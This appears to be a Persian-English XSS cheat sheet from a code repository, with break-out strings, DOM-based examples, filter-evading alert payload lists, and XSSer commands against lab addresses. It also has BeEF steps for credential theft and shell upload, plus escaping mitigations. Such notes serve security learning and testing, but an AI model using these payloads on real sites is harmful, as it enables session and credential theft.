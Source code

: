 # XSS

## Exploit (Reflected & Stored)
- تزریق کد به محتوای صفحه HTML بدون هیچ encoding
  - ورودی های سایت مانند Search و Comment و ... 
  - پس از تزریق اسکریپت باید به page source code رفته و بررسی کنیم که با چه کاراکترهایی می توانیم از المانی که حاوی اسکریپت ما می باشد، breake out کنیم. چند نمونه در زیر آمده است:
```Javascript
">
'>
'">
'">');
/">
</title>
```
- س

## Exploit (DOM-based)
- تابع ```location.search``` برای *source* و ```innerHTML``` برای *sink*
  - در اینحالت محتوای search شده، درون صفحه نمایش داده می شود، که باید از تگ img برای تزریق payload استفاده می کنیم.
```JavaScript
0 search results for '<span id="searchMessage"></span>'
...
document.getElementById('searchMessage').innerHTML = (new URLSearchParams(window.location.search)).get('search')
``` 
- تابع ```location.search``` برای *source* و ```jQuery anchor href attribute``` برای *sink*
  - می خواهیم با کلیک روی کلید ```Back``` کوکی قربانی نمایش داده شود.
  - طبق کدهای زیر، پارامتر ```returnPath``` از URL خوانده شده و در href عه لینکی که به Back اشاره می کند، قرار داده می شود:
  - با تغییر URL و قرار دادن مقدار ```javascript:alert(document.cookie)``` برای پارامتر returnPath، با کلیک بر روی *Back*، کوکی کاربر نمایش داده می شود. 
```JavaScript
<a id="backLink">Back</a>
...
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
```
- ییی

## Payloads
```Javascript
<script>alert(888)</script>
<SCript>alert(888)</SCript>
<scri<script>pt>alert(888)</scri</script>pt>
<script>prompt(888)</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 56, 56, 56, 41))</script>

<svg onload=alert(888)>

<img src=1 onerror=alert(888)>
<img src=1 oNeRrOr=alert`888`>


<BODY ONLOAD=alert(888)>
```

## Payloads
```Javascript
'; alert(888)'//
%27;+alert(888);//
";alert(888);//
";alert(888);"
';alert(888);//
';alert(888);'
```

## xsser
- POST
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'```
    - XSSer will substitute payload in place of "XSS" string
    - ```p``` shows parameter in POST request (intercept request and copy parameter values from Burp) 
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto```
    - Trying various XSS payloads by using XSSer's ```--auto``` option
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"```
    - Using custom XSS payload 
- GET
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote"```
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"```
    - Providing basic XSS payload to XSSer
- Authenticated
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0"```
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0" --Fp "<script>alert(1)</script>"```
    - Scan the target using basic XSS payload

## BeEF

- Initialize
  - Install
    - ```apt update```
    - ```apt install beef-xss```
  - Change username/password
    -```nano /etc/beef-xss/config.yaml```

- Run
  - ```beef-xss```  
  - Browser => 127.0.0.1:3000/ui/panel

- Usage
  - 127.0.0.1:3000/hook.js
  - 192.168.8.106:3000/demos/basic.html

- Useful commands
  - Steal Credentials
    - Social Engineering -> Pretty Theft
  - Screenshot
    - Browser -> Spyder Eye     
  - Redirect 
    - Browser -> Hooked Domain -> Redirect Browser  
  - Shell Upload with update
    - Social Engineering -> Fake Notification Bar(Firefox)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

